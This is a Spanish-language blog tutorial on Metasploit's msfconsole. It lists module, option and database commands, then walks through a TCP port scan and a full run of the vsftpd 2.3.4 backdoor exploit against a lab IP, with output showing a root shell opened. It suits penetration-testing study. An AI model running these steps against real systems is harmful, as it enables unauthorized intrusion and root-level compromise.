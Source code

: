 ```yaml
---
layout: post
title: "msfconsole"
date: 2014-01-27 18:52
comments: true
categories: 
---
```

[metasploit]

Consola centralizada con acceso a todo las opciones disponibles de Metasploit Framework, única soportada y estable con soporte para de edición de lineas (readline), que permite tabulacion y ejecución de comandos externos.

Uso de comandos externos: Lanzar un ping a un equipo o nmap:

	msf > ping -c 1 192.168.1.10

	msf > nmap 192.168.1.10

Obtener ayuda:

	msf > help

Mostrar módulos disponibles:

	msf > show

Mostrar módulos auxiliares [scanners, modulos de denial of service, fuzzers...]:

	msf > show auxiliary

Obtener una lista de todos los exploits:

	msf > show exploits

Mostrar listado de los diferentes payloads y para las plataformas disponibles:

	msf > show payloads

Nota.- Cuando se está usando un determinado exploit, "show payloads" solo mostrará los que son compatibles para ese exploit concreto. 

Seleccionado un módulo especifico, para mostrar las opciones disponibles y/o requeridas para ese módulo concreto.

	msf exploit(ms08_067_netapi) > show options

Mostrar objetivos soportados:

	msf exploit(ms08_067_netapi) > show targets

Mostrar las opciones avanzadas de un exploit:

	msf exploit(ms08_067_netapi) > show advanced

Buscar cadenas de texto dentro del módulo

	msf > search ms09-001

Buscar información detallada [opciones, objetivos....] sobre un determinado modulo

	msf > info dos/windows/smb/ms09_001_write

Una vez escogido el módulo en particular, seleccionarlo con:

	msf > use dos/windows/smb/ms09_001_write

Y mirar sus opciones requeridas:

	msf auxiliary(ms09_001_write) > show options

Conectar a una Ip y a un puerto:

	msf > connect 192.168.1.10 23

Para configurar las opciones del modulo que se está utilizando:

	msf auxiliary(ms09_001_write) > set RHOST 192.168.1.10

Comprobar de nuevo las opciones del módulo

	msf auxiliary(ms09_001_write) > show options

Mostrar codificaciones disponibles:

	msf exploit(ms08_067_netapi) > show encoders

Escoger la deseada:

	msf exploit(ms08_067_netapi) > set encoder x86/shikata_ga_nai

Comprobar si un objetivo es vulnerable a un exploit sin explotar la vulnerabilidad:

	msf exploit(ms04_045_wins) > check

Para establecer una variable global [setg - save]:

	msf > setg RHOST 192.168.1.136

	RHOST => 192.168.1.136

	msf > save

	Saved configuration to: /root/.msf3/config

Suprimir una variable global:

	msf > unsetg RHOST

Suprimir una variable entrada para un módulo:

	msf > unset RHOST

Lanzar un exploit:

	msf auxiliary(ms09_001_write) > run

Salir del módulo:

	msf auxiliary(ms09_001_write) > back

Cambiar al modo de edición de scripts en ruby:

	msf > irb

1.-

Algunos comandos relacionados con la base de datos propia de metasploit:

	msf > db_status (Mostrar el estado de la conexión a la BDs y nombre)

	msf > db_nmap 192.168.1.10 (Lanzar nmap y guardar el resultado en la BDs)

	msf > hosts (Muestra todos los informes de la BDs)

	msf > hosts 192.168.1.10 (Muestra sólo el informe de la ip especificada)

	msf > services (Muestra todos los servicios de la BDs incluso los inactivos)

	msf > services -u -R 192.168.1.10 (Muestra los servicios activos [u] del host especificado [R])

2.-

Muestra de un scan de puertos:

	Exploradores de puertos disponibles:

		msf > search portscan

	Nota.- Los escáners y la mayoría de módulos auxiliares usan la opción RHOSTS en vez de RHOST y puede ser un rango de IP [192.168.1.10-192.168.1.50], rangos CIDR (192.168.1.0/24), múltiples rangos separados por comas (192.168.1.0/24, 192.168.3.0/24) y una lista en un archivo con una ip por linea (file:/tmp/hostlist.txt). 

	Para escoger el escaneador de puertos a usar:

		msf > use scanner/portscan/tcp

	Comprobar si falta algún parámetro [RHOSTS]

		msf auxiliary(tcp) > show options

	Entrar la ip donde dirigir el escaneo:

		msf auxiliary(tcp) > set RHOSTS 192.168.1.10

	Arancar el escaneo:

		msf auxiliary(tcp) > run

Todos los módulos scanner tiene el valor THREADS en "1". Este valor establece el número de subprocesos simultaneos que se utilizan durante la exploración. Un número superior acelera las exploraciones pero aumenta el tráfico en la red. Para modificar el valor:

	msf > set THREADS 50

3.-

Muestra de un ataque

MSF > use exploit/unix/ftp/vsftpd_234_backdoor

Comprobar parámetros que faltan:

	msf exploit(vsftpd_234_backdoor) > show options

Entrar el parámetro RHOST [la IP atacada]

	msf exploit(vsftpd_234_backdoor) > set RHOST 192.168.1.10

Comprobar nuevamente si el parámetro ha entrado correctamente:

	msf exploit(vsftpd_234_backdoor) > show options

Lanzar el exploit en segundo plano [j] y mostrando una salida positiva en la que se abre una shell en la máquina remota:

	msf exploit(vsftpd_234_backdoor) > exploit -j

	[*] Exploit running as background job.

	[*] Banner: 220 (vsFTPD 2.3.4)

	[*] USERR: 331 Please specify the password.

	msf exploit(vsftpd_234_backdoor) > [+] Backdoor service has been spawned, handling...

	[+] UID: uid=0(root) gid=0(root)

	[*] Found shell.

	[*] Command shell session 1 opened (192.168.1.15:49654 -> 192.168.1.10:6200) at 2013-07-07 08:06:30 -0400

Mostrar las sesiones abiertas [ID de la sesion, puertos abiertos, máquina remota, local...]:

	msf exploit(vsftpd_234_backdoor) > sessions -l

Ejecutar un comando en todas las shells abiertas y mostradas con sessions -l:

	msf exploit(vsftpd_234_backdoor) > sessions -c ifconfig 

Entrar en la session con ID 1:

	msf exploit(vsftpd_234_backdoor) > sessions -i 1

	[*] Starting interaction with 1...

A partir de este punto estamos en una shell clásica de linux del host 192.168.1.10 donde podemos usar todos los comandos propios de dichas shells.

